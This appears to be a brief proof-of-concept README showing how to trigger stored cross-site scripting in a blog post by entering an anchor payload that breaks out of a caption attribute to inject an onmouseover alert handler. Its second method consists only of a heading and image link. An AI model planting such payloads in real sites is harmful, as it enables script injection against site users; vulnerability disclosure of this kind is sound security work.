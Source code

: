 # Steps
**Step 1:**
Make a new Post

**Step 2:**
Type the code below into the body of the post 
```
<a href = "[caption code="]></a> <a title = " onmouseover=alert('Hello')">link</a>
```
**Step 3**
A link will appear in the post. Have a user click that link to perform the XSS


# Demo
![](Demo.gif)

# Second way to perform XSS 
# Demo
![](Demo.gif)
